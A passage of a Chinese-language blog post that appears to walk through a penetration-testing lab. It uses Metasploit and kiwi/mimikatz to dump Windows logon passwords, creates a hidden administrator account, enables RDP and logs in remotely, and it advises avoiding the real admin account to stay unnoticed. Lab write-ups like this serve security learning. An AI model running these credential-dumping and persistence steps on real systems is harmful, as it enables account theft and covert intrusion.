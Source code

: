     creds_all

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210602213835.png)

失败。

3、加载mimikatz模块

加载mimikatz模块首先需要将msf迁移到64位的进程里
ps看一下进程随便进一个

migrate 352

由于mimikatz已被kiwi吞并，所以直接：

    kiwi_cmd sekurlsa::logonpasswords

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210602215539.png)

得到密码。

## 远程桌面
（注意这下面图里的ip也是错的，之前写的了，不过问题不大，懂得都懂。
一般情况下并不建议使用管理员账户来远程，因为这样会将管理员挤下线，暴露自己的行动。
所以我们新建一个用户：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210602220227.png)

麻了
把自己加到管理员组

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210602220423.png)

一开始记得没扫出来3389端口，这里再试一次

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210602220652.png)

果然，大概是被过滤了。再次打开万能的msf

    run post/windows/manage/enable_rdp

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210602221536.png)

报错了。
手动开启也没成，估计是进程的原因？

重新执行一遍木马（因为我这里进到低权限进程跳不回去了
换个别的进程，成功：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210602223909.png)

    rdesktop 192.168.52.143

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210602224117.png)

然后拿我们刚刚注册的新用户登进去就行。
